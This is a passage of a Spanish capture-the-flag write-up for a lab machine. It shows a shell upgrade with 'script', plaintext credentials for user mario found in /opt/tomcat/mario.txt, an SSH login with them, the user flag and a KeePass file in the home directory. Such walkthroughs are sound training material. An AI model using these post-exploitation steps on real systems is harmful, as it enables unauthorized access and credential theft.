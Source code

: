 Nos importamos una shell mejor.

```shell
script /dev/null -c bash
```

Info:

```
script /dev/null -c bash
Script started, output log file is '/dev/null'.
tomcat@788ab34d6661:/$
```

## Escalate user mario

Si vamos a la siguiente ubicacion.

```shell
cd /opt/tomcat
```

Y listamos los archivos veremos un archivo raro llamado `mario.txt` que si lo leeremos veremos lo siguiente.

```
mario:marioeseljefe
```

Son las credenciales del usuario `mario` por lo que nos conectaremos por `ssh`.

## SSH con mario

```shell
ssh mario@<IP>
```

Metemos la contraseña obtenida y ya estariamos dentro por lo que leeremos la flag.

> user.txt

```
d099be3ff7be7294c9344daadebca767
```

Si listamos nuestra `home` veremos lo siguiente.

```
total 40
drwxr-x--- 1 mario mario 4096 Aug 21 20:55 .
drwxr-xr-x 1 root  root  4096 Aug 21 19:06 ..
-rw------- 1 mario mario   18 Aug 21 19:07 .bash_history
-rw-r--r-- 1 mario mario  220 Aug 21 15:00 .bash_logout
-rw-r--r-- 1 mario mario 3771 Aug 21 19:06 .bashrc
drwx------ 2 mario mario 4096 Aug 21 20:55 .cache
-rw-r--r-- 1 mario mario  807 Aug 21 15:00 .profile
-rw-r--r-- 1 mario mario 1797 Aug 21 19:13 alice.kdbx
-rw-r--r-- 1 root  root    33 Aug 21 19:02 user.txt
```
